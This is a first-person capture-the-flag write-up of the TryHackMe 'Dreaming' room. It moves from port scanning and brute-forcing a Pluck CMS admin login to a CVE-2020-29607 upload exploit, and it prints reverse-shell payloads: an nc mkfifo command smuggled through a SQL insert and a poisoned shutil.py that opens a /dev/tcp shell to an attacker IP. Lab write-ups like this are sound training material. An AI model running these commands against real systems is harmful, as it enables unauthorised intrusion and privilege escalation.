### Dreaming CTF writeup
https://tryhackme.com/room/dreaming

### Room Overview
All i had been given was a target computers IP for this CTF.

### Begin CTF
Started by using nmap -Pn 10.146.137.212 to scan the network for open ports and find the services running on them. Found 2 ports open:
22 - ssh
80 - http 
Both running on tcp



After visiting the site using the ip address in the url bar, it comes up with a apache2 ubuntu default page

I then used gobuster using this command to see if i could find any directories

gobuster dir -u "10.146.137.212" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64



As you can see we got a few errors but we were able to find the /app directory that lead me to a page with a file named pluck-4.7.13/

I searched up what is this file and the first result came up with a CVE

And when i click on the file it took me to a webpage named dreaming at this directory: http://10.146.137.212/app/pluck-4.7.13/?file=dreaming



When i click the admin link it takes me to a login page and i suspect this will be my entrypoint



After searching up pluck 4.7.13 in exploit db i found a remote code execution exploit which has the same cve as the one i found before

I then used claude to construct a hydra command based on the page source of the login form which was this: 

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.146.137.212 http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log in:F=Password incorrect."



Hydra found 4 passwords however the post form version can be tad bit buggy, as “password” was the only working password and the rest only registered as working because they were entered fast after the working password. Either way when we get successful logins we know the first password hydra outputs will always be the working one. 



Going back to the CVE I found (CVE-2020-29607) it said something about how an admin privileged user can gain access to the host machine through the manage files option. Well now that I have logged in as admin I should be able to use this exploit.

I then downloaded the exploit py file from the exploitdb page (https://www.exploit-db.com/exploits/49909) and did some reading through the code and exploitdb page to better understand how to use the exploit. I was able to construct this command:
python3 /home/kali/Desktop/49909.py 10.146.137.212 80 password /app/pluck-4.7.13

This command ran the py file which in turn uploaded the shell.phar file to the managefiles webpage on the pluck site:



After pressing the little magnifying glass on the shell.phar file the payload opens a p0wny shell in another tab within the browser (this way no reverse connection or listener is needed)



Using the whoami command i find out that i am logged in as www-data

so i used the command cat /etc/passwd | grep bash to locate any users on the system (grepping by bash filters out some of the service created accounts that don't allow logins and just leaves the legitimate system users)

Heres what i got:



So now I know for sure I'm in the right spot as the CTF’s questions revolve around these users. 

I was then curious if any other files on the computer were owned by these people so first i tried lucien with this command:

find / -user lucien 2>/dev/null

This command finds files from the root folder that are owned by the user lucien and then outputs all the errors in /dev/null.



Heres my results. The files in home are protected under luciens account so i couldnt access them, but i did find /opt/test.py which lucien left their password in by accident so now i have their username and password.

I then used another terminal to log into their account with ssh:



After this all i needed to do was use “cat lucien_flag.txt” and i got the flag to answer the first question.

Then i used the command find / -user death and found a strange file in the opt directory named /opt/getDreams.py

After using cat on it i get this: 



I can definitely use this somehow, first I need the database password however. 

After some enumeration i found the password in the .bash_history file from lucien when they accidentally typed it directly into the CLI. 

I then used that command to login to the sql and used the use command to select the library db. Now since the /opt/getDreams.py file has a command named “command” that echos the contents of dreamer and dream to the console. We can abuse this to use command injection. With the echo $([console command]) format anything we type inside the brackets actually gets executed instead of printed to console. So knowing this i found a command string that could allow me to connect the death user that the command would be run as, back to a listener so that i could run other commands as death and even access the death_flag.txt. Heres the command: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.12 4444 >/tmp/f)')

Heres the full command i used in mysql: INSERT INTO dreams (dreamer, dream) VALUES ('Nightmare', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.12 4444 >/tmp/f)');

Now when the command line runs in the python file it will instead of printing nightmares value, it will actually just execute the code within nightmare, from the context of the user death and allow us to run commands as them from the listener set up on the 10.9.2.12 4444 attacker machine. 

So we set up the listener in a separate terminal like this: nc -lvnp 4444

Then we run this command as lucien (since when we ran sudo -l it said we can run this command as death) : sudo -u death /usr/bin/python3 /home/death/getDreams.py

Then our listener picks up a connection and i then checked which user i was with the whoami command, and i was death, and then i can just cd to deaths home directory and we got the flag using the cat command.

Now we just have one flag left from the user morpheus. 

After some failed attempts at finding any clues towards the last question i had a look at someone elses CTF writeup and it said they used a program called pspy64 that found a program being run every so often by the user morpheus. But I couldn't find it. 

Then they went to the python file being run which was /home/morpheus/restore.py and in that python file i found that they use a library named shutil, which it turns out we can write to it as the user death which we just got access to. 

So all i did is use this command to overwrite the python library with malicious code that would start a reverse shell back to my attacker pc and then when the morpheus user automatically ran the python script it just connected me to their computer logged in as morpheus: echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.146.66.247/4444 0>&1'\")" > /usr/lib/python3.8/shutil.py

And then after i logged in all i did was use cat to reveal the morpheus flag in his home directory and i finally got the last flag of the CTF. 
